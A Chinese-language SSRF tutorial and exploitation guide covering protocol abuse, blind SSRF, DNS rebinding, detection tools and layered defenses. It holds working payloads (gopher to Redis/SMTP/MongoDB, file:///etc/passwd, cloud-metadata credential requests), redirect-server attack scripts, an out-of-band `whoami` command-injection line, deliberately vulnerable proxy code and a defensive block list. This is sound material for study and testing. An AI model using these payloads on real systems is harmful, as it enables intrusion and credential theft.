

# SSRF (Server-Side Request Forgery) 深度解析与实战利用指南

> 关联文档：[URL Format Bypass](./URL%20Format%20Bypass.md) · [Cloud SSRF](./Cloud%20SSRF.md) · [Open Redirect](../Open%20Redirect/README.md) · [SSI/ESI](../../Proxies/Server%20Side%20Inclusion%26Edge%20Side%20Inclusion/README.md)

---

# 0x01 背景与原理

## 1.1 定义

**Server-Side Request Forgery (SSRF)** 是指攻击者操控**服务端应用程序**以服务器的身份向任意目标发起 HTTP 请求。与 CSRF (客户端伪造请求) 不同，SSRF 的请求**源 IP 是服务器自身**，因此可以访问：

- 外网无法直达的**内网服务** (如内部 API、数据库、管理面板)
- 云平台的**元数据端点** (`169.254.169.254`)
- 仅限本机访问的**回环服务** (如 Docker Socket、Redis、Memcache)

## 1.2 攻击模型



**关键特征**：
- 攻击者的请求**不直接到达目标**，而是经过受害服务器"代理"
- 攻击者可控制目标 URL（完整或部分）
- 服务器端的网络可达性决定了 SSRF 的利用范围

## 1.3 影响等级

| 攻击目标 | 效果 | 风险等级 |
|----------|------|----------|
| 云元数据端点 | 获取 IAM 临时凭据 → 云账户接管 | **严重** |
| 内部 API/管理面板 | 未授权操作、数据窃取 | **高** |
| 回环服务 (Redis/Memcache/MySQL) | 通过 Gopher 协议实现 RCE | **严重** |
| 端口扫描 | 内网拓扑测绘 | **中** |
| `file://` 协议 | 服务器文件读取 | **高** |
| DoS | 大文件下载耗尽连接池 | **低** |

---

# 0x02 URL 白名单绕过

SSRF 的入口通常受限于"只允许某些域名/IP"的白名单。URL 校验绕过的完整技术矩阵（localhost 表示变形、Domain 解析混淆、反斜杠陷阱、DNS Rebinding、近期 CVE 实例）已整理在独立文档中，便于与 Open Redirect 等其他攻击面交叉引用：

> **参见 [URL Format Bypass](./URL%20Format%20Bypass.md)** — 16 类绕过技术 × 120+ Payload × 7 个 CVE 案例

---

# 0x03 协议攻击面

## 3.1 协议矩阵

| 协议 | 用途 | 风险等级 | 示例 |
|------|------|----------|------|
| `file://` | 读取本地文件 | **高** | `file:///etc/passwd` |
| `dict://` | 与 TCP 端口交互 | 中 | `dict://127.0.0.1:11211/stats` |
| `gopher://` | **构造任意 TCP 数据流** | **严重** | `gopher://127.0.0.1:6379/_*1%0d%0a$8...` |
| `sftp://` | SFTP 连接 | 中 | `sftp://evil.com:11111/` |
| `tftp://` | TFTP (UDP) | 中 | `tftp://evil.com:12346/TEST` |
| `ldap://` | LDAP 目录服务 | 中 | `ldap://127.0.0.1:11211/%0astats%0aquit` |

## 3.2 Gopher 协议深度利用

Gopher 协议允许攻击者**自定义 TCP 数据流的每一个字节**，使 SSRF 可以直接与任何 TCP 服务（Redis、MySQL、SMTP、FastCGI）通信，无需理解协议细节——只需知道该协议的标准请求格式。

```bash
# Gopher HTTP GET
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A

# Gopher HTTP POST
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body

# Gopher SMTP (发送邮件)
gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A...

# Gopher Redis (写入 SSH key / crontab)
gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0a...

# Gopher MongoDB (创建管理员)
gopher://0.0.0.0:27017/_<BSON payload>
```

**工具辅助**：

- [Gopherus](https://github.com/tarunkant/Gopherus) — 针对 MySQL、PostgreSQL、FastCGI、Redis、Zabbix、Memcache 的 Gopher Payload 自动生成
- [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) — Java RMI + SSRF → Gopher Payload

## 3.3 Curl URL Globbing — WAF 绕过

如果 SSRF 由 **curl** 执行，curl 的 [URL globbing](https://everything.curl.dev/cmdline/globbing) 特性可用于绕 WAF。例如以下利用 curl globbing 实现 `file://` 路径遍历的实例：

```bash
file:///app/public/{.}./{.}./{app/public/hello.html,flag.txt}
```

curl 将 `{.}` 展开为空字符串，`{a,b}` 展开为两个请求，最终访问到目标文件。

## 3.4 SMTP 内部域名泄露

通过 SSRF 连接 localhost SMTP 端口，可从 banner 中提取内部域名信息：

```
1. SSRF 连接 smtp://localhost:25
2. 从 banner 获取: 220 internaldomain.com ESMTP Sendmail
3. 在 GitHub 搜索 internaldomain.com 发现子域名
4. 连接内部子域名 → 进一步信息收集
```

## 3.5 Gopher 重定向服务器

当需要通过 SSRF 使用不同协议（如 gopher）时，可搭建返回 302 重定向的服务器：

```python
# Flask 版本 — HTTPS + Gopher 重定向
from flask import Flask, redirect
from urllib.parse import quote
app = Flask(__name__)

@app.route('/')
def root():
    return redirect('gopher://127.0.0.1:5985/_%50%4f%53%54...', code=301)

if __name__ == "__main__":
    app.run(ssl_context='adhoc', debug=True, host="0.0.0.0", port=8443)
```

```python
# http.server 版本 — 适用于 WinRM (5985) 等 WS-Management 服务
from http.server import HTTPServer, BaseHTTPRequestHandler
import ssl

class MainHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(301)
        self.send_header("Location", "gopher://127.0.0.1:5985/_<payload>")
        self.end_headers()

httpd = HTTPServer(('0.0.0.0', 443), MainHandler)
httpd.socket = ssl.wrap_socket(httpd.socket, certfile="server.pem", server_side=True)
httpd.serve_forever()
```

---

# 0x04 攻击向量全集

## 4.1 直接 URL 参数注入

最常见的 SSRF 入口：服务端通过 `url=` 参数获取资源（图片代理、网页预览、Webhook、PDF 生成等）。

```bash
# 常见注入参数
?url=http://169.254.169.254/latest/meta-data/
?path=http://127.0.0.1:8080/admin
?file=http://internal-api/v1/users
?src=http://10.0.0.5/debug
```

## 4.2 Referer 头 SSRF

分析/统计型后端代码会记录 `Referer` 头并**访问 Referer URL** 以获取来源站点的内容分析和摘要。此行为在分析平台中极为普遍。

```http
GET / HTTP/1.1
Host: target.com
Referer: http://169.254.169.254/latest/meta-data/
```

> **工具**：Burp 插件 **Collaborator Everywhere** 自动在请求中嵌入 Collaborator URL，检测服务端是否对外部 URL 发起请求。

## 4.3 SNI 数据 SSRF

当反向代理（如 NGINX）在 `stream` 模块中使用 `$ssl_preread_server_name` 直接作为 `proxy_pass` 目标时，客户端的 SNI 字段完全控制出站连接目标：

```nginx
stream {
    server {
        listen 443;
        resolver 127.0.0.11;
        proxy_pass $ssl_preread_server_name:443;   # ← 直接来自 SNI
        ssl_preread on;
    }
}
```

```bash
openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf
```

## 4.4 TLS AIA CA Issuers (Java mTLS SSRF)

Java 在启用 `-Dcom.sun.security.enableAIAcaIssuers=true` 的 mTLS 场景下，会从客户端证书的 **Authority Information Access → CA Issuers URI** 自动下载中间 CA 证书。攻击者可通过伪造客户端证书触发服务端向任意地址发起请求：

```bash
java -Dcom.sun.security.enableAIAcaIssuers=true \
     -Dhttp.agent="SSRF PoC" -jar server.jar
# 攻击者证书 AIA: http://localhost:8080
# → 服务端在 TLS 握手阶段向 localhost:8080 发起请求
```

## 4.5 CSS Pre-Processor SSRF (LESS)

LESS CSS 预处理器在遇到 `@import` 语句时默认获取外部资源并内联到编译结果中：

```less
@import (inline) "http://169.254.169.254/latest/meta-data/";
```

## 4.6 HTML-PDF 渲染 SSRF (TCPDF/html2pdf)

PDF 生成库会自动解析 HTML 中的外部资源引用：

```html
<html>
  <body>
    
    <link rel="stylesheet" type="text/css" href="http://10.0.0.5/admin">
  </body>
</html>
```

TCPDF 6.10.0 对每个 `` 发起多次获取尝试，html2pdf 在 `Css::extractStyle()` 中使用 `file_get_contents()` 获取 CSS 外部引用——两者均可被利用为**盲 SSRF 代理**。

## 4.7 绝对 URI 请求行 (Open Forward-Proxy)

部分反向代理接受 HTTP 请求行中的**绝对 URI 形式** (`GET http://10.0.0.5:8080/path HTTP/1.1`) 并直接转发，将其变为**预认证的全读前向代理**：

```http
GET http://127.0.0.1:8080/ HTTP/1.1
Host: whatever
Connection: close
```

## 4.8 代理路径解析差异

不同框架对 URL 路径的解析差异可导致 SSRF：

| 框架 | 注入方式 | 请求示例 |
|------|----------|----------|
| Flask | `@` 作为路径首字符 | `GET @evildomain.com/ HTTP/1.1` |
| Spring Boot | `;` 作为路径首字符 | `GET ;@evil.com/url HTTP/1.1` |
| PHP Built-in | `*` 在 `/` 之前 | `GET *@0xa9fea9fe/ HTTP/1.1` |

**Spring Boot 典型漏洞代码**：

```java
@GetMapping("/url")
public String getURLValue(HttpServletRequest request) throws IOException {
    String site = "http://ifconfig.me";
    String uri = request.getRequestURI();
    URL url = new URL(site + uri.toString());  // ← 路径直接拼接到 URL
    String response = getSource(url);
    return response;
}
```

攻击者发送 `GET ;@evil.com/url HTTP/1.1` 时，`request.getRequestURI()` 返回 `/;@evil.com/url`，拼接后 `new URL("http://ifconfig.me/;@evil.com/url")` 中 `;` 被 Spring 解析为路径参数分隔符，`@evil.com` 成为实际请求目标。

**Flask 典型漏洞代码**：

```python
from flask import Flask
from requests import get

app = Flask('__main__')
SITE_NAME = 'https://google.com'

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def proxy(path):
    return get(f'{SITE_NAME}{path}').content
```

Flask 允许 `@` 作为路径首字符，攻击请求 `GET @evildomain.com/ HTTP/1.1` → 拼接后 `https://google.com/@evildomain.com/` → `evildomain.com` 变为 userinfo 后的实际目标。

**PHP Built-in Web Server 典型漏洞代码**：

```php
<?php
$site = "http://ifconfig.me";
$current_uri = $_SERVER['REQUEST_URI'];
$proxy_site = $site . $current_uri;
$response = file_get_contents($proxy_site);
?>
```

PHP 允许 `*` 字符出现在 `/` 之前的路径中，但有限制：仅可用于根路径 `/`，且点号 `.` 不允许出现在第一个斜杠之前，因此需使用无点十六进制 IP：

```http
GET *@0xa9fea9fe/ HTTP/1.1
Host: target.com
Connection: close
```

---

# 0x05 Blind SSRF

## 5.1 定义与挑战

**Blind SSRF** 指攻击者**看不到 SSRF 请求的响应内容**的情况。此时需要依赖侧信道技术——响应时间差异、DNS/HTTP 外带（OOB）、错误消息推断——来判断漏洞存在与否。

## 5.2 盲 SSRF → 全回显：HTTP 重定向循环法

利用**异常的 HTTP 状态码重定向链**，迫使应用进入调试模式并泄露响应内容：

```python
@app.route("/redir")
def redir():
    count = int(request.args.get("count", 0)) + 1
    weird_status = 301 + count       # 305, 306, 307, 308, 309, 310...
    if count >= 10:
        return redirect(METADATA_URL, 302)
    return redirect(f"/redir?count={count}", weird_status)
```

**原理**：libcurl 本身会跟随 305–310 状态码；经过 N 次奇怪重定向后，应用的 wrapper 认为"异常"并切换为调试模式，将完整重定向链 + 最终响应体返回给攻击者。

完整利用脚本：

```python
@app.route("/redir")
def redir():
    count = int(request.args.get("count", 0)) + 1
    weird_status = 301 + count       # 305, 306, 307, 308, 309, 310...
    if count >= 10:
        return redirect(METADATA_URL, 302)  # 最终跳转到真正的目标
    return redirect(f"/redir?count={count}", weird_status)

@app.route("/start")
def start():
    return redirect("/redir", 302)   # 初始 302 启动重定向链
```

**执行步骤**：

1. 初始 302 → 应用开始跟随重定向
2. 依次接收 305 → 306 → 307 → 308 → 309 → 310（libcurl 均会跟随）
3. N 次异常状态码后，应用 wrapper 判定"异常"，切换为调试模式
4. 最终 302 → `169.254.169.254` → 200 OK，在调试模式下完整回显响应内容
5. 攻击者获取全部 header + metadata JSON

## 5.3 盲 SSRF → 时间侧信道

通过测量服务端响应时间差异判断内网端口/服务是否存在：

- 关闭的端口 → 快速拒绝 → 短响应时间
- 开放的端口 → 尝试建立连接 → 较长时间
- 存在特定服务的端口 → 协议交互延时 → 可区分的时间特征

---

# 0x06 DNS Rebinding

## 6.1 绕过 CORS/SOP

当需要从内网 IP **读取响应内容**但受 CORS/SOP 限制时，DNS Rebinding 可使攻击者域名与内网 IP 同源，从而绕过同源策略。

## 6.2 DNS Rebinding + TLS Session ID/Ticket

高级攻击链：

1. 受害者访问攻击者域名 (TTL=0)
2. 建立 TLS 连接，攻击者将 Payload 注入 Session ID/Ticket
3. 无限重定向环迫使受害者反复访问该域名
4. 某次 DNS 解析将域名指向 127.0.0.1
5. 受害者尝试恢复 TLS 会话时**向 127.0.0.1 发送**包含攻击者 Payload 的 Session Ticket

**工具**：[TLS-poison](https://github.com/jmdx/TLS-poison/)、[Singularity](https://github.com/nccgroup/singularity)

---

# 0x07 检测与挖掘

## 7.1 OOB 检测基础设施

```bash
# 首选工具列表
Burp Collaborator          # Burp 内置
interactsh                 # projectdiscovery 出品
http://webhook.site        # 临时 HTTP 日志
http://pingb.in            # 临时 DNS/HTTP 回调
https://canarytokens.org   # 蜜罐型检测
http://requestrepo.com     # 请求镜像
```

## 7.2 自动化扫描

```bash
# SSRFMap — 检测 + 利用一体化
ssrfmap -r urls.txt -p url -m readfiles

# 自定义扫描 — 替换参数值为 Collaborator URL
cat params.txt | while read url; do
  curl -s "$url=http://YOUR.interactsh.com" &
done
```

## 7.3 PHP SSRF 函数

以下 PHP 函数在接收用户输入时可能导致 SSRF：

- `file_get_contents()`
- `fopen()`
- `curl_exec()`
- `readfile()`
- `get_headers()`
- WordPress: `wp_remote_get()`, `wp_remote_post()`

## 7.4 SSRF 与命令注入联动

当 SSRF URL 参数被直接拼接到 shell 命令中时，可尝试内联命令注入：

```bash
url=http://3iufty2q67fuy2dew3yug4f34.burpcollaborator.net?`whoami`
```

如果服务端使用 `curl` 等命令行工具处理 URL 且未做 shell 转义，反引号内的命令将被执行，结果随 DNS/HTTP 外带到 Collaborator。

## 7.5 HTML-to-PDF 渲染器作为盲 SSRF 利用链

PDF 生成库（TCPDF、html2pdf）在将 HTML 转换为 PDF 时会**自动解析并请求所有外部资源引用**，可作为盲 SSRF 代理探测内网：

```html
<html>
  <body>
    
    <link rel="stylesheet" type="text/css" href="http://10.0.0.5/admin">
  </body>
</html>
```

- **TCPDF 6.10.0**：对每个 `` 发起多次获取尝试（curl + getimagesize + file_get_contents），单个 payload 可产生多个探测请求
- **html2pdf**：在 `Css::extractStyle()` 中调用 `file_get_contents($href)` 获取 CSS 外部引用，仅做浅层 scheme 检查
- **组合利用**：结合 [HTML-to-PDF 路径遍历](../file-inclusion/README.md) 同时泄露 HTTP 响应和本地文件内容

---

# 0x08 工具清单

| 工具 | 用途 | 关键特性 |
|------|------|----------|
| [SSRFMap](https://github.com/swisskyrepo/SSRFmap) | 检测 + 多协议利用 | 支持 file/gopher/dict 等多种协议 |
| [Gopherus](https://github.com/tarunkant/Gopherus) | Gopher Payload 生成 | MySQL / PostgreSQL / FastCGI / Redis / Zabbix / Memcache |
| [Singularity](https://github.com/nccgroup/singularity) | DNS Rebinding 攻击框架 | 自动化 IP 切换 + Payload 下发 |
| [SSRF Proxy](https://github.com/bcoles/ssrf_proxy) | SSRF → HTTP 代理隧道 | 通过 SSRF 节点转发 HTTP 流量 |
| [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) | Java RMI SSRF Payload | 自动生成 RMI 操作的 Gopher Payload |
| [TLS-poison](https://github.com/jmdx/TLS-poison/) | DNS Rebinding + TLS 注入 | Session ID/Ticket 内嵌入攻击 Payload |
| [Burp-Encode-IP](https://github.com/e1abrador/Burp-Encode-IP) | IP 格式编码绕过 | 自动转换八进制/十六进制/十进制 IP |
| [SSRF-PayloadMaker](https://github.com/hsynuzm/SSRF-PayloadMaker) | 80k+ Host 变形生成 | 混合编码、HTTP 降级、反斜杠变体 |
| [recollapse](https://github.com/0xacb/recollapse) | 正则绕过 Fuzzer | 基于输入 URL 生成绕过变体 |

---

# 0x09 分层防御

## 9.1 网络层

- 最小权限出站规则：Web 服务器仅允许必要的出站连接
- 内网分段：将敏感服务与 Web 层网络隔离
- 禁用回环到非必要服务：Docker Socket、Redis、元数据端点不应能从 Web 进程访问

## 9.2 应用层

```python
# 核心防御原则
BLOCKED_SCHEMES = {"file", "gopher", "dict", "ftp", "sftp", "tftp", "ldap"}
BLOCKED_HOSTS = {"127.0.0.1", "localhost", "169.254.169.254", "0.0.0.0"}
ALLOWED_HOSTS = {"api.trusted.com", "cdn.trusted.com"}  # 白名单模式优先

# 关键步骤：
# 1. 协议白名单
# 2. DNS 解析 → IP 校验
# 3. 重定向跟随后再次校验
# 4. 拒绝 Userinfo (@)
# 5. 统一 URL 解析器消除差异
```

## 9.3 云平台

- 启用 IMDSv2 (AWS) / `Metadata-Flavor` 验证 (GCP) / `Metadata: true` (Azure)
- 限制 metadata endpoint 的 hop limit (AWS IMDSv2 默认为 1)
- 非必要不挂载 IAM Role 到 EC2/ECS/EKS
- 监控对 `169.254.169.254` 的异常请求

---

# 0x0A 参考资料

- [PortSwigger — SSRF](https://portswigger.net/web-security/ssrf)
- [PortSwigger — URL Validation Bypass Cheat Sheet](https://portswigger.net/web-security/ssrf/url-validation-bypass-cheat-sheet)
- [PayloadsAllTheThings — SSRF](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- [Assetnote — Blind SSRF Chains via HTTP Redirect Loops](https://slcyber.io/assetnote-security-research-center/novel-ssrf-technique-involving-http-redirect-loops/)
- [Exploiting HTTP Parsers Inconsistencies (Flask/Spring/PHP built-in server)](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies)
- [Claroty — Exploiting URL Parsing Confusion](https://claroty.com/2022/01/10/blog-research-exploiting-url-parsing-confusion/)
- [Gopherus Blog Post](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)
- [Singularity — DNS Rebinding Framework](https://github.com/nccgroup/singularity)
- [TLS-poison — DNS Rebinding + TLS Injection](https://github.com/jmdx/TLS-poison/)
- [recollapse — Regex Bypass Fuzzer](https://github.com/0xacb/recollapse)
- [SSRF-PayloadMaker — 80k+ Host 变形生成器](https://github.com/hsynuzm/SSRF-PayloadMaker)
- [Positive Technologies — Blind Trust: PDF Generation SSRF](https://swarm.ptsecurity.com/blind-trust-what-is-hidden-behind-the-process-of-creating-your-pdf-file/)
- [Tenable — SSRF in Java TLS Handshakes (AIA CA Issuers)](https://www.tenable.com/blog/tenable-discovers-ssrf-vulnerability-in-java-tls-handshakes-that-creates-dos-risk)
- [When Audits Fail: Pre-Auth SSRF to RCE in TRUfusion Enterprise](https://www.rcesecurity.com/2026/02/when-audits-fail-from-pre-auth-ssrf-to-rce-in-trufusion-enterprise/)
